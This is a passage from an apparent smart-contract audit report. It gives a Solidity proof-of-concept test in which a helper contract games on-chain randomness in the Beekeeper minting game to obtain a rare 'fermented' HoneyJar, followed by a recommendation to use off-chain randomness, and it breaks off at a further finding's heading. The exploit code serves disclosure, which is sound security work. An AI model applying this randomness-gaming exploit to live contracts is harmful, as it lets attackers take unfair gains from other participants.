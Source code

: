 
Coded POC for the `Beekeeper.t.sol `:

```solidity
    function testReroll() public {
        address alice = address(0xa11cE);
        Reroll reroll = new Reroll(beekeeper);

        vm.deal(alice, 100 ether);
        vm.deal(address(reroll), 100 ether);

        _puffPuffPassOut();
        uint256 newSleepers = 10;
        uint256 mintAmount = 100;
        uint256[] memory checkpoints = new uint256[](3);
        checkpoints[0] = 20;
        checkpoints[1] = 40;
        checkpoints[2] = mintAmount;

        // Set the game
        gameRegistry.stopGame(address(beekeeper));
        beekeeper.setCheckpoints(0, checkpoints);
        beekeeper.setNumSleepers(newSleepers);
        gameRegistry.startGame(address(beekeeper));

        // First minter
        vm.prank(alice);
        beekeeper.mekHoneyJarWithETH{value: MINT_PRICE_ETH * 19}(19);
        // Second minter will get the fermented jar even though Alice has 19 jars
        vm.warp(1);
        vm.startPrank(address(reroll));
        reroll.setOffset(1);
        vm.expectRevert("YIKES");
        beekeeper.mekHoneyJarWithETH{value: MINT_PRICE_ETH}(1);
        // Try again
        vm.warp(2);
        uint256 minted = beekeeper.mekHoneyJarWithETH{value: MINT_PRICE_ETH}(1);
        assertEq(honeyJar.isFermented(minted), true);
    }
```

## Recommendations

Consider generating random numbers off-chain, either using services like Chainlink VRF or using your own internal server.

# [M-04] The user can temporarily block the `HoneyJar` contract from receiving LZ messages

## Severity
